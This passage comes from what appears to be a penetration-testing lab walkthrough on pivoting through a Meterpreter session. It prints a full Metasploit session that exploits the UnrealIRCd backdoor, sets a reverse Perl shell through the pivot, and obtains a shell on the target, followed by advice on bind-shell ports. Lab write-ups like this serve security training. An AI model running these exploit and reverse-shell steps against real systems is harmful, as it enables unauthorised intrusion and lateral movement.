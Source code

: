 It must fit two criteria :

1. It only uses tools that the target has (it doesn't have `telnet`, and I spent too many hours figuring that out)
2. It can set up the listener on/through our previous session

We can either set up a bind shell listener on the target and connect to it through our previous session,
or we can set up a reverse shell listener in our previous session and connect back to it from our target.

For the reverse shell, set `LHOST` to the IP address of the pivot on the same network as the target,
and `LPORT` (the listening port on our pivot session) to an unused port.
You can check which ports are in use by running `netstat -a` in your Meterpreter session.
You'll need to use an unprivileged port (higher than 1024) if you didn't get root privileges previously.
Finally, you'll need to set the `ReverseListenerComm` option to the session you want to pivot through
(your first Meterpreter session should be session 2)

```
msf6 auxiliary(server/socks_proxy) > use exploit/unix/irc/unreal_ircd_3281_backdoor
[*] Using exploit/unix/irc/unreal_ircd_3281_backdoor
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 8
payload => cmd/unix/reverse_perl
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 172.25.0.3
LHOST => 172.25.0.3
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LPORT 11337
LPORT => 11337
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set ReverseListenerComm 2
ReverseListenerComm => 2
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 172.25.0.3:11337 via the meterpreter on session 2
[*] 172.25.0.2:6667 - Connected to 172.25.0.2:6667...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
    :irc.TestIRC.net NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 172.25.0.2:6667 - Sending backdoor command...
[*] Command shell session 3 opened (172.25.0.3:11337 -> 172.25.0.2:59464 via session 2) at 2024-07-17 23:32:23 -0400

id
uid=1121(boba_fett) gid=100(users) groups=100(users)
```

Alternatively, using a bind shell is slightly simpler.
You'll need to set `LPORT` (the port on the target which the shell will listen on) to an unused port.
We can't just check with `netstat -a` since we don't have access yet,
but a good start would be to pick an unprivileged port that didn't show up in your nmap scan,
and one that's not [commonly used](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers#Well-known_ports).
